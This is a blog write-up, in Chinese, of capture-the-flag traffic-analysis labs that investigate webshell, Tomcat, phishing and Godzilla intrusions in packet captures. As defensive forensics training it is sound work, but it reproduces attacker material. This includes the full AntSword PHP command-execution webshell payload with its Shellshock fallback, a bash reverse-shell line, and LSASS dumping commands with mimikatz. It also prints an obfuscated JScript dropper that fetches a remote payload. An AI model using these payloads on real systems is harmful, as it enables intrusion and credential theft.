+++
title = "玄机第六章"
slug = "xuanji-chapter-6"
description = "刷"
date = "2025-04-09T16:11:44"
lastmod = "2025-04-09T16:11:44"
image = ""
license = ""
categories = [""]
tags = ["流量分析"]
+++

## 第六章 流量特征分析-蚁剑流量分析

直接拿到一个流量包，去peterpan博客偷点知识

**1. 基本过滤器**

- 过滤HTTP状态码200：

  ```
  http.response.code == 200
  ```

- 过滤HTTP GET请求：

  ```
  http.request.method == "GET"
  ```

**2. IP 地址过滤**

- 过滤特定源IP地址的流量：

  ```
  ip.src == 192.168.1.1
  ```

- 过滤特定目标IP地址的流量：

  ```
  ip.dst == 192.168.1.1
  ```

- 过滤特定源或目标IP地址的流量：

  ```
  ip.addr == 192.168.1.1
  ```

3. **端口过滤**

- 过滤特定源端口的流量：

  ```
  tcp.srcport == 80
  ```

- 过滤特定目标端口的流量：

  ```
  tcp.dstport == 80
  ```

- 过滤特定端口的流量（无论是源端口还是目标端口）：

  ```
  tcp.port == 80
  ```

**4. 协议过滤**

- 过滤HTTP流量：

  ```
  http
  ```

- 过滤HTTPS流量：

  ```
  ssl
  ```

- 过滤DNS流量：

  ```
  dns
  ```

**5. 其他常用过滤器**

- 过滤特定MAC地址的流量：

  ```
  eth.addr == 00:11:22:33:44:55
  ```

- 过滤TCP重传：

  ```
  tcp.analysis.retransmission
  ```

- 过滤TCP三次握手过程：

  ```
  tcp.flags.syn == 1 && tcp.flags.ack == 0
  ```

- 过滤TCP连接终止过程：

  ```
  tcp.flags.fin == 1
  ```

**6. 组合过滤器**

- 过滤特定源IP和目标端口的流量：

  ```
  ip.src == 192.168.1.1 && tcp.dstport == 80
  ```

- 过滤HTTP 200响应的流量：

  ```
  http && http.response.code == 200
  ```

- 过滤HTTP 200服务器成功处理了请求：

  ```
  http contains "200"
  ```

### flag1

我一开始就随便追踪了一个TCP流量，然后发现了木马



`flag{1}`

### flag2

把执行的命令格式整理好

```php
@ini_set("display_errors", "0");
@set_time_limit(0);

$opdir = @ini_get("open_basedir");

if ($opdir) {
    $ocwd = dirname($_SERVER["SCRIPT_FILENAME"]);
    $oparr = preg_split(base64_decode("Lzt8Oi8="), $opdir);
    @array_push($oparr, $ocwd, sys_get_temp_dir());
    foreach ($oparr as $item) {
        if (!@is_writable($item)) {
            continue;
        }
        $tmdir = $item . "/.d53e47c56e78";
        @mkdir($tmdir);
        if (!@file_exists($tmdir)) {
            continue;
        }
        $tmdir = realpath($tmdir);
        @chdir($tmdir);
        @ini_set("open_basedir", "..");
        $cntarr = @preg_split("/\\\\|\//", $tmdir);
        for ($i = 0; $i < sizeof($cntarr); $i++) {
            @chdir("..");
        }
        @ini_set("open_basedir", "/");
        @rmdir($tmdir);
        break;
    }
}

function asenc($out)
{
    return $out;
}

function asoutput()
{
    $output = ob_get_contents();
    ob_end_clean();
    echo "2c" . "3f5";
    echo @asenc($output);
    echo "20" . "c49";
}

ob_start();

try {
    $p = base64_decode(substr($_POST["ma569eedd00c3b"], 2));
    $s = base64_decode(substr($_POST["ucc3f8650c92ac"], 2));
    $envstr = @base64_decode(substr($_POST["e5d0dbe94954b3"], 2));
    $d = dirname($_SERVER["SCRIPT_FILENAME"]);
    $c = substr($d, 0, 1) == "/" ? "-c \"{$s}\"" : "/c \"{$s}\"";
    if (substr($d, 0, 1) == "/") {
        @putenv("PATH=" . getenv("PATH") . ":/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin");
    } else {
        @putenv("PATH=" . getenv("PATH") . ";C:/Windows/system32;C:/Windows/SysWOW64;C:/Windows;C:/Windows/System32/WindowsPowerShell/v1.0/;");
    }
    if (!empty($envstr)) {
        $envarr = explode("|||asline|||", $envstr);
        foreach ($envarr as $v) {
            if (!empty($v)) {
                @putenv(str_replace("|||askey|||", "=", $v));
            }
        }
    }
    $r = "{$p} {$c}";

    function fe($f)
    {
        $d = explode(",", @ini_get("disable_functions"));
        if (empty($d)) {
            $d = array();
        } else {
            $d = array_map('trim', array_map('strtolower', $d));
        }
        return (function_exists($f) && is_callable($f) && !in_array($f, $d));
    }

    function runshellshock($d, $c)
    {
        if (substr($d, 0, 1) == "/" && fe('putenv') && (fe('error_log') || fe('mail'))) {
            if (strstr(readlink("/bin/sh"), "bash") != FALSE) {
                $tmp = tempnam(sys_get_temp_dir(), 'as');
                putenv("PHP_LOL=() { x; }; $c >$tmp 2>&1");
                if (fe('error_log')) {
                    error_log("a", 1);
                } else {
                    mail("a@127.0.0.1", "", "", "-bv");
                }
            } else {
                return False;
            }
            $output = @file_get_contents($tmp);
            @unlink($tmp);
            if ($output != "") {
                print($output);
                return True;
            }
        }
        return False;
    }

    function runcmd($c)
    {
        $ret = 0;
        $d = dirname($_SERVER["SCRIPT_FILENAME"]);
        if (fe('system')) {
            @system($c, $ret);
        } elseif (fe('passthru')) {
            @passthru($c, $ret);
        } elseif (fe('shell_exec')) {
            print(@shell_exec($c));
        } elseif (fe('exec')) {
            @exec($c, $o, $ret);
            print(join("\n", $o));
        } elseif (fe('popen')) {
            $fp = @popen($c, 'r');
            while (!@feof($fp)) {
                print(@fgets($fp, 2048));
            }
            @pclose($fp);
        } elseif (fe('proc_open')) {
            $p = @proc_open($c, array(1 => array('pipe', 'w'), 2 => array('pipe', 'w')), $io);
            while (!@feof($io[1])) {
                print(@fgets($io[1], 2048));
            }
            while (!@feof($io[2])) {
                print(@fgets($io[2], 2048));
            }
            @fclose($io[1]);
            @fclose($io[2]);
            @proc_close($p);
        } elseif (fe('antsystem')) {
            @antsystem($c);
        } elseif (runshellshock($d, $c)) {
            return $ret;
        } elseif (substr($d, 0, 1) != "/" && @class_exists("COM")) {
            $w = new COM('WScript.shell');
            $e = $w->exec($c);
            $so = $e->StdOut();
            $ret .= $so->ReadAll();
            $se = $e->StdErr();
            $ret .= $se->ReadAll();
            print($ret);
        } else {
            $ret = 127;
        }
        return $ret;
    }

    $ret = @runcmd($r . " 2>&1");
    print($ret != 0) ? "ret={$ret}" : "";
} catch (Exception $e) {
    echo "ERROR://" . $e->getMessage();
}

asoutput();
die();

&e5d0dbe94954b3=SR&ma569eedd00c3b=38L2Jpbi9zaA==&ucc3f8650c92ac=AkY2QgIi92YXIvd3d3L2h0bWwiO2lkO2VjaG8gZTEyNGJjO3B3ZDtlY2hvIDQzNTIz
```

可以很明显的看出破壳漏洞，`Shellshock` 是一个著名的Bash漏洞，可以允许攻击者执行任意命令。存入的命令是base64的，我先过滤一下流量`http contains "200"`，看了一个流量发现刚好，



这是执行了`id`命令，得到`flag{id}`，但是还有一种更规范的方法，我们刚才知道了参数是用来进行恶意执行命令的，所以可以直接选中流量，右键->显示分组字节



### flag3&&flag6

利用一样的方法，找出字节流

```
flag{/etc/passwd}

flag{/var/www/html/config.php}
```

### flag4

上传文件过滤POST流量，`http.request.method == "POST"`，显示出字节流，找到了`flag{flag.txt}`

### flag5

上传的内容，那就还是这个数据包，追踪http流量，

```php
@ini_set("display_errors", "0");
@set_time_limit(0);

$opdir = @ini_get("open_basedir");
if ($opdir) {
    $ocwd = dirname($_SERVER["SCRIPT_FILENAME"]);
    $oparr = preg_split(base64_decode("Lzt8Oi8="), $opdir);
    @array_push($oparr, $ocwd, sys_get_temp_dir());

    foreach ($oparr as $item) {
        if (!@is_writable($item)) {
            continue;
        }
        $tmdir = $item . "/.368479785";
        @mkdir($tmdir);
        if (!@file_exists($tmdir)) {
            continue;
        }
        $tmdir = realpath($tmdir);
        @chdir($tmdir);
        @ini_set("open_basedir", "..");
        
        $cntarr = @preg_split("/\\\\|\//", $tmdir);
        for ($i = 0; $i < sizeof($cntarr); $i++) {
            @chdir("..");
        }
        
        @ini_set("open_basedir", "/");
        @rmdir($tmdir);
        break;
    }
}

function asenc($out) {
    return $out;
}

function asoutput() {
    $output = ob_get_contents();
    ob_end_clean();
    echo "6960" . "cb205";
    echo @asenc($output);
    echo "1e0a" . "91914";
}

ob_start();

try {
    $f = base64_decode(substr($_POST["t41ffbc5fb0c04"], 2));
    $c = $_POST["ld807e7193493d"];
    $c = str_replace("\r", "", $c);
    $c = str_replace("\n", "", $c);
    $buf = "";

    for ($i = 0; $i < strlen($c); $i += 2) {
        $buf .= urldecode("%" . substr($c, $i, 2));
    }

    echo (@fwrite(fopen($f, "a"), $buf) ? "1" : "0");
} catch (Exception $e) {
    echo "ERROR://".$e->getMessage();
}

asoutput();
die();
&ld807e7193493d=666C61677B77726974655F666C61677D0A&t41ffbc5fb0c04=0ZL3Zhci93d3cvaHRtbC9mbGFnLnR4dA==
```

绕过`open_basedir`，并且检查目录是否可写，如果可写就创建一个临时目录，改变工作目录进行文件的写入，`ld807e7193493d`为值，`t41ffbc5fb0c04`去除前两位为文件位置，因为写入的时候对于`$c`还做了一个url编码的设置，所以我们看到的应该是原字符串的十六进制，`flag{write_flag}`

## 第六章 流量特征分析-常见攻击事件 tomcat

### flag1

用nmap进行扫描会留下SYN特征，并且有一个IP频繁出现，就算不知道扫描器特征也能知道



`flag{14.0.0.120}`

### flag2

找到IP之后我们进行IP地址查询就可以知道`flag{Guangzhou}`

### flag3

找Web端口，过滤一下流量`http.response.code == 200`



`flag{8080}`

### flag4

一样的进行`http.response.code == 200`的过滤，发现有三个流量的`protocol`不一样



追踪一下流量在UA头里面发现了工具



`flag{gobuster}`

### flag5

先过滤一下关键路由`http contains "/admin"`，发现并没有找到，再过滤一下关键的HTTP头，`http contains "Authorization"`，追踪HTTP流量，`flag{admin-tomcat}`

### flag6

还是那一块的流量，找到了一个上传文件的包，当然你也可以过滤POST的包，`http.request.method == "POST"`，



`flag{JXQOZY.war}`

### flag7

进行权限维持，我们首先找找有没有修改`/bin`下面的东西，过滤流量`http contains "/bin"`没有，换成`tcp contains "/bin"`，发现定时任务



`flag{/bin/bash -c 'bash -i >& /dev/tcp/14.0.0.120/443 0>&1'}`

## 第六章 流量特征分析-waf 上的截获的黑客攻击流量

不是哥们166M的流量？

### flag1

一般登录都是POST传参，当然也有GET，但是很少，我们先过滤一下`http.request.method == "POST"`，这东西太大了，居然卡了一下，我还以为没有POST呢，



302跳转了，应该是登录成功了，`flag{admin!@#pass123}`

### flag2

关键字符串，这种是靶场里面，那么应该是flag，如果是真实环境的话，我觉得最后可能的应该是`hacked by XXX`，但是关键字符串的筛选，并没有找出来，让AI写个脚本来查找

```python
from scapy.all import *
import re


# 读取PCAP文件
def extract_http_with_flag(pcap_file):
    # 读取PCAP文件
    packets = rdpcap(pcap_file)

    # 用于存储包含'flag'的HTTP包
    http_packets_with_flag = []

    # 遍历所有包
    for packet in packets:
        # 判断包是否是TCP协议，并且是否包含HTTP层
        if packet.haslayer(TCP) and packet.haslayer(Raw):
            # 获取HTTP请求或响应的原始数据
            raw_data = packet[Raw].load.decode(errors='ignore')

            # 判断是否包含'flag'关键字
            if 'flag' in raw_data:
                # 将包含'flag'的包添加到列表中
                http_packets_with_flag.append(packet)

    return http_packets_with_flag


# 打印包含'flag'关键字的HTTP包的内容
def print_http_with_flag(http_packets):
    for packet in http_packets:
        if packet.haslayer(Raw):
            raw_data = packet[Raw].load.decode(errors='ignore')
            print(f"Found 'flag' in HTTP packet:\n{raw_data}\n")


# 主程序
if __name__ == "__main__":
    pcap_file = "web.pcap"  # 替换为你的PCAP文件路径
    http_packets_with_flag = extract_http_with_flag(pcap_file)
    print_http_with_flag(http_packets_with_flag)

```

### flag3

寻找数据库的密码，进行流量的过滤`http contains "dbpass"`



`flag{e667jUPvJjXHvEUv}`

## 第六章 流量特征分析-蚂蚁爱上树

### flag1

找密码，我们还是先过滤流量`http.request.method == "POST"`，找到`product2.php`里面参数比较多，可能是登录的时候进行了一个参数的处理，那再进行一个字符串的跟踪，显示出字节流，进行2个字节的移动之后再进行base64解码，发现命令

```
cd /d "C:\\phpStudy\\PHPTutorial\\WWW\\onlineshop"&ls&echo [S]&cd&echo [E]7
```

没啥意义这一条，依次循环，我发现他在进行用户的添加，并且找了大概五六条流量之后找到了密码

```
cd /d "C:\\phpStudy\\PHPTutorial\\WWW\\onlineshop"&net user admin Password1 /add&echo [S]&cd&echo [E]7
```

`flag{Password1}`

### flag2

我们要先读懂题目是啥

> rundll32.exe 是一个 Windows 系统进程，允许用户调用 Windows DLL 文件中的函数。这通常用于执行系统功能或脚本任务。rundll32.exe 被用来调用 comsvcs.dll 中的 MiniDump 函数，生成一个包含系统账户和密码信息的 lsass.dmp 文件。
>
> LSASS.exe 是 Windows 操作系统中负责管理本地安全策略、用户认证和访问控制的关键系统进程。由于其在系统安全中的重要性，LSASS.exe 常常成为攻击者的目标。通过适当的监控、访问控制和安全工具，管理员可以有效地检测和防止对 LSASS 进程的恶意攻击。

不过我觉得就算不知道，瞎蒙也可以作对这个，因为我们已经知道，他在这里在执行命令了，所以接着找，就能知道他运行LSASS.exe的程序进程ID是多少

```
cd /d "C:\\phpStudy\\PHPTutorial\\WWW\\onlineshop"&rundll32.exe comsvcs.dll, MiniDump 852 C:\Temp\OnlineShopBackup.zip full&echo [S]&cd&echo [E]
```

`flag{852}`

### flag3

需要找到用户的密码，还是对`product2.php`，这里看着应该是一个域用户，需要去dumphash，导出http流，发现有个47M的，这太可疑了



导出之后将文件后缀改为`dmp`，发现文件头不对，修改成这样



[mimikatz](https://github.com/ParrotSec/mimikatz)来进行hash的处理，下载好之后使用x64的版本

- **`sekurlsa`**：这是 Mimikatz 中的一个模块，用于与 Windows 安全子系统进行交互，特别是与 LSASS.exe 进程相关的功能。

```
.\mimikatz.exe
sekurlsa::minidump product2.dmp
sekurlsa::logonpasswords
```



md5解密一下即可`flag{admin#123}`

## 第六章 流量特征分析-小王公司收到的钓鱼邮件

### flag1

筛选一下http流，发现就几条流量了



发现压缩包`flag{tsdandassociates.co.sz/w0ks//?YO=1702920835}`

### flag2

就是让我们导出Zip包加密即可，追踪http流，直接导出分组字节流



运行`md5sum 1.zip`得到`flag{f17dc5b1c30c512137e62993d1df9b2f}`

### flag3

解压zip，发现有个js文件，但是太乱了，写个脚本把注释部分处理了

```python
import re


# 函数：去掉JS中的注释
def remove_js_comments(js_code):
    # 正则表达式：匹配单行注释和多行注释
    js_code_no_comments = re.sub(r'//.*?$|/\*.*?\*/', '', js_code, flags=re.DOTALL | re.MULTILINE)
    return js_code_no_comments


# 读取JS文件并处理
def process_js_file(file_path):
    with open(file_path, 'r', encoding='utf-8') as file:
        js_code = file.read()

    # 移除注释
    clean_js_code = remove_js_comments(js_code)

    return clean_js_code


# 主程序
if __name__ == "__main__":
    js_file = "Nuj.js"  # 替换为你的JS文件路径
    clean_js = process_js_file(js_file)

    # 输出处理后的内容（可以选择保存到新文件或者直接打印）
    print(clean_js)

    # 可选择保存处理后的JS代码到新文件
    with open("cleaned_script.js", 'w', encoding='utf-8') as output_file:
        output_file.write(clean_js)

```

拿到js还是很乱，让人机把格式弄一下

```js
x808919187 = '';
x808919187 += 't';
x808919187 += 'r';
x808919187 += 'u';
x808919187 += 'e';
x449195806 = '';
x449195806 += 'f';
x449195806 += 'a';
x449195806 += 'l';
x449195806 += 's';
x449195806 += 'e';

v395493070(z986383452);

function k25931219(f684415514, p717292302) {
    d398776207 = '';
    d398776207 += '"';
    d398776207 += f684415514;
    d398776207 += '"';
    d398776207 += '.';
    d398776207 += 'm';
    d398776207 += 'a';
    d398776207 += 't';
    d398776207 += 'c';
    d398776207 += 'h';
    d398776207 += '(';
    d398776207 += ' ';
    d398776207 += '"';
    d398776207 += p717292302;
    d398776207 += '"';
    d398776207 += ' ';
    d398776207 += ')';
    return s843092254(d398776207);
}

function w327424018(q853060332, q577476678, g985523219) {
    g281403925 = '';
    g281403925 += '(';
    g281403925 += ' ';
    g281403925 += 'n';
    g281403925 += 'e';
    g281403925 += 'w';
    g281403925 += ' ';
    g281403925 += 'A';
    g281403925 += 'c';
    g281403925 += 't';
    g281403925 += 'i';
    g281403925 += 'v';
    g281403925 += 'e';
    g281403925 += 'X';
    g281403925 += 'O';
    g281403925 += 'b';
    g281403925 += 'j';
    g281403925 += 'e';
    g281403925 += 'c';
    g281403925 += 't';
    g281403925 += '(';
    g281403925 += ' ';
    g281403925 += '"';
    g281403925 += 'W';
    g281403925 += 'S';
    g281403925 += 'c';
    g281403925 += 'r';
    g281403925 += 'i';
    g281403925 += 'p';
    g281403925 += 't';
    g281403925 += '.';
    g281403925 += 'S';
    g281403925 += 'h';
    g281403925 += 'e';
    g281403925 += 'l';
    g281403925 += 'l';
    g281403925 += '"';
    g281403925 += ' ';
    g281403925 += ')';
    g281403925 += ' ';
    g281403925 += ')';
    g281403925 += '.';
    g281403925 += 'R';
    g281403925 += 'u';
    g281403925 += 'n';
    g281403925 += '(';
    g281403925 += ' ';
    g281403925 += "'";
    g281403925 += q853060332;
    g281403925 += "'";
    g281403925 += ',';
    g281403925 += ' ';
    g281403925 += q577476678;
    g281403925 += ',';
    g281403925 += ' ';
    g281403925 += g985523219;
    g281403925 += ' ';
    g281403925 += ')';
    v395493070(function() {
        s843092254(g281403925);
    });
}

function v395493070(j712825305) {
    try {
        new n616719679(y302945094);
    } catch (t33400252) {
        w265553656 = '';
        w265553656 += 'u';
        w265553656 += 'n';
        w265553656 += 'd';
        w265553656 += 'e';
        w265553656 += 'f';
        w265553656 += 'i';
        w265553656 += 'n';
        w265553656 += 'e';
        if (k25931219(w265553656)) {
            j712825305();
        }
    }
}

function y18358769(u311868867) {
    s169557020 = '';
    s169557020 += 'c';
    s169557020 += 'm';
    s169557020 += 'd';
    s169557020 += '.';
    s169557020 += 'e';
    s169557020 += 'x';
    s169557020 += 'e';
    s169557020 += ' ';
    s169557020 += '/';
    s169557020 += 'c';
    s169557020 += ' ';
    s169557020 += 'd';
    s169557020 += 'e';
    s169557020 += 'l';
    s169557020 += ' ';
    s169557020 += '"';
    s169557020 += u311868867;
    s169557020 += '"';
    w327424018(s169557020, x449195806, x808919187);
}

function z986383452(n865649288) {
    f350474578 = '';
    f350474578 += 'W';
    f350474578 += 'S';
    f350474578 += 'c';
    f350474578 += 'r';
    f350474578 += 'i';
    f350474578 += 'p';
    f350474578 += 't';
    f350474578 += '.';
    f350474578 += 'S';
    f350474578 += 'c';
    f350474578 += 'r';
    f350474578 += 'i';
    f350474578 += 'p';
    f350474578 += 't';
    f350474578 += 'F';
    f350474578 += 'u';
    f350474578 += 'l';
    f350474578 += 'l';
    f350474578 += 'N';
    f350474578 += 'a';
    f350474578 += 'm';
    f350474578 += 'e';
    d1887591 = '';
    d1887591 += '\\';
    d1887591 += '\\';
    z272081462 = s843092254(f350474578).replace(/\\/g, d1887591);
    y18358769(z272081462);
}

function u615667760(i750922179, u311868867) {
    u710353204 = '';
    u710353204 += 'c';
    u710353204 += 'm';
    u710353204 += 'd';
    u710353204 += '.';
    u710353204 += 'e';
    u710353204 += 'x';
    u710353204 += 'e';
    u710353204 += ' ';
    u710353204 += '/';
    u710353204 += 'c';
    u710353204 += ' ';
    u710353204 += 'e';
    u710353204 += 'c';
    u710353204 += 'h';
    u710353204 += '|';
    u710353204 += 's';
    u710353204 += 'e';
    u710353204 += 't';
    u710353204 += ' ';
    u710353204 += '/';
    u710353204 += 'p';
    u710353204 += '=';
    u710353204 += '"';
    u710353204 += 'c';
    u710353204 += 'u';
    u710353204 += '"';
    u710353204 += ' ';
    u710353204 += '>';
    u710353204 += ' ';
    u710353204 += '"';
    u710353204 += '%';
    u710353204 += 't';
    u710353204 += 'e';
    u710353204 += 'm';
    u710353204 += '%';
    u710353204 += '\\';
    u710353204 += '\\';
    u710353204 += 'd';
    u710353204 += 'o';
    u710353204 += 'l';
    u710353204 += 'o';
    u710353204 += 'r';
    u710353204 += 'e';
    u710353204 += 'm';
    u710353204 += '.';
    u710353204 += 'p';
    u710353204 += '.';
    u710353204 += 'b';
    u710353204 += 'a';
    u710353204 += 't';
    w327424018(u710353204, x449195806, x808919187);
    u789315486 = '';
    u789315486 += 'c';
    u789315486 += 'm';
    u789315486 += 'd';
    u789315486 += '.';
    u789315486 += 'e';
    u789315486 += 'x';
    u789315486 += 'e';
    u789315486 += ' ';
    u789315486 += '/';
    u789315486 += 'c';
    u789315486 += ' ';
    u789315486 += 'e';
    u789315486 += 'c';
    u789315486 += 'h';
    u789315486 += 'o';
    u789315486 += ' ';
    u789315486 += 'r';
    u789315486 += 'l';
    u789315486 += ' ';
    u789315486 += '"';
    u789315486 += i750922179;
    u789315486 += '"';
    u789315486 += ' ';
    u789315486 += '--';
    u789315486 += 'output';
    u789315486 += ' ';
    u789315486 += '"';
    u789315486 += '%';
    u789315486 += 't';
    u789315486 += 'e';
    u789315486 += 'm';
    u789315486 += '%';
    u789315486 += '\\';
    u789315486 += '\\';
    u789315486 += 'd';
    u789315486 += 'o';
    u789315486 += 'l';
    u789315486 += 'o';
    u789315486 += 'r';
    u789315486 += 'e';
    u789315486 += 'm';
    u789315486 += '.';
    u789315486 += 'p';
    u789315486 += '.';
    u789315486 += 'b';
    u789315486 += 'a';
    u789315486 += 't';
    w327424018(u789315486, x449195806, x808919187);
}

function s843092254(p326825704) {
    return eval(p326825704);
}

o457607380 = '';
o457607380 += 'h';
o457607380 += 't';
o457607380 += 't';
o457607380 += 'p';
o457607380 += 's';
o457607380 += ':';
o457607380 += '/';
o457607380 += '/';
o457607380 += 's';
o457607380 += 'h';
o457607380 += 'a';
o457607380 += 'k';
o457607380 += 'y';
o457607380 += 'a';
o457607380 += 's';
o457607380 += 't';
o457607380 += 'a';
o457607380 += 't';
o457607380 += 'u';
o457607380 += 'e';
o457607380 += 's';
o457607380 += 't';
o457607380 += 'r';
o457607380 += 'a';
o457607380 += 'd';
o457607380 += 'e';
o457607380 += '.';
o457607380 += 'c';
o457607380 += 'o';
o457607380 += 'm';
o457607380 += '/';
o457607380 += 'I';
o457607380 += 'h';
o457607380 += 'A';
o457607380 += '6';
o457607380 += 'F';
o457607380 += '/';
o457607380 += '6';
o457607380 += '1';
o457607380 += '6';
o457607380 += '2';
o457607380 += '3';
o457607380 += '1';
o457607380 += '6';
o457607380 += '0';
o457607380 += '3';
l988241708 = '';
l988241708 += 'q';
l988241708 += 'u';
l988241708 += 'i';
l988241708 += '.';
l988241708 += 'q';

u615667760(o457607380, l988241708);
r418484478(l988241708);
```

动态添加字符串，但是很明显最后的`o457607380`里面才有http，所以处理一下

```js
o457607380 = '';
o457607380 += 'h';
o457607380 += 't';
o457607380 += 't';
o457607380 += 'p';
o457607380 += 's';
o457607380 += ':';
o457607380 += '/';
o457607380 += '/';
o457607380 += 's';
o457607380 += 'h';
o457607380 += 'a';
o457607380 += 'k';
o457607380 += 'y';
o457607380 += 'a';
o457607380 += 's';
o457607380 += 't';
o457607380 += 'a';
o457607380 += 't';
o457607380 += 'u';
o457607380 += 'e';
o457607380 += 's';
o457607380 += 't';
o457607380 += 'r';
o457607380 += 'a';
o457607380 += 'd';
o457607380 += 'e';
o457607380 += '.';
o457607380 += 'c';
o457607380 += 'o';
o457607380 += 'm';
o457607380 += '/';
o457607380 += 'I';
o457607380 += 'h';
o457607380 += 'A';
o457607380 += '6';
o457607380 += 'F';
o457607380 += '/';
o457607380 += '6';
o457607380 += '1';
o457607380 += '6';
o457607380 += '2';
o457607380 += '3';
o457607380 += '1';
o457607380 += '6';
o457607380 += '0';
o457607380 += '3';

console.log(o457607380);
// https://shakyastatuestrade.com/IhA6F/616231603
```

`flag{shakyastatuestrade.com}`

## 第六章-哥斯拉4.0流量分析

13个挑战？！

### flag1

先把流量包，看下http流量，一进来我就看到黑客在fuzz，所以`flag{192.168.31.190}`

### flag2

看到http流量的最后有PUT上传jsp，就是那个Tomcat漏洞，`flag{CVE-2017-12615}`

### flag3

文件名`flag{hello.jsp}`

### flag4

密码为`flag{7f0e6f}`

### flag5

密钥为`flag{1710acba6220f62b}`

### flag6

先筛选一下流量`http contains "/hello.jsp"`，要知道第一个执行的是什么命令需要一个工具[BlueTeamTools](https://github.com/abc123info/BlueTeamTools/releases/tag/v1.21) 挨个试



`flag{uname -r}`

### flag7

找权限，这个流量包已经没用了，再继续找，找了一会儿



`flag{root}`

### flag8

一样的找就行了，执行了`cat /etc/os-release`找到了`flag{Debian GNU/Linux 10 (buster)}`，我交了三次，原来是我错意了，前面两个只是一个版本，并不是Linux版本

### flag9

这里发现黑客执行命令没有成功

```http
POST /hello.jsp HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:84.0) Gecko/20100101 Firefox/84.0
Cookie: JSESSIONID=A4E00CFBEAD534C26CE338637009936D;
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Host: 192.168.31.168:8080
Connection: keep-alive
Content-type: application/x-www-form-urlencoded
Content-Length: 257

7f0e6f=mEkY4yb%2Fxb%2FiJDb63p5ns8XlZJ7YcRIxuZtnsTDcqa2t3HdQZOgX3rbZL9EfqcVjpvv7jR47DBQWSvdffg3CSLUFAI0RTij4TmbSXf5xOehSxtiWQ7h3W%2BseS7YYNM6bjaxlHm4bTf4kAIY9II3tLb3szMV67oTfcsWSHOjv%2BWI4awfE2osILDcFBerCwtIM%2BRooGQJDRdylaXZQnYwuhayhjw9FXxaKiyIQC%2BbVlSs%3D
HTTP/1.1 200 
Content-Type: text/html;charset=ISO-8859-1
Content-Length: 96
Date: Thu, 19 Sep 2024 12:59:33 GMT

B333AF03A314E0FBAT+h/KB6rJ20cLv/ywStnQEThPES9jvtb9ES2qcCt7SqYO04KvIlSI/z12BFnUiV0F00BC7E2672E1F5
```

主要是执行了`rmp -qa | grep pam`，得到了回显`2>&1: 1: 2>&1: rmp: not found`，虽然不是flag但是很明显是题目要求的“过滤了什么”，其中要过滤出`pam`，接着找到了





`flag{dpkg -l libpam-modules:amd64}`

### flag10

留下的后门，也就是反弹shell的IP和port，这个我最开始就找到了`flag{192.168.31.143:1313}`



### flag11

上传文件肯定要够大，一直在找没找到，重新过滤一下`http contains "/hello.jsp"`，将大小筛选一下，发现第二个就是



恶意so文件，`flag{pam_unix.so}`

### flag12&&flag13

找不到在流量里面，流量已经被我们翻完了，链接服务器。先看一下`history`



把so文件dump下来放进IDA里面，之前是在过滤pam函数，而现在我们肯定也是这样，并且需要密码，那我们直接找auth类似的函数





`flag{XJ@123}`，同一张图里面还有DNSLOG的地址，那我笑纳了，`flag{c0ee2ad2d8.ipv6.xxx.eu.org.}`

## 小结

图片放的比较多，但是感觉不放图片就会不懂一些说的(语文不好)，挺有意思的，就是不会写脚本手动太累了
